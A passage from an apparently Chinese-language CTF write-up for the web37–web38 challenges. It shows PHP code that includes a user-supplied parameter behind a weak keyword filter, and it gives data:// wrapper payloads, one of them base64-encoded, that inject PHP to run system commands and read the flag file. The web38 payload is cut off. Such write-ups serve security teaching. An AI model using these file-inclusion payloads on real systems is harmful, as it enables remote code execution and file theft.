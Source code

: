 ```php
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

不是哥们，怎么还是文件包含

payload：

> ?c=data://text/plain,<?php system("tac fla*.php")?>
>
> 或者
>
> ?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=

#### web38

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:23:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

payload:
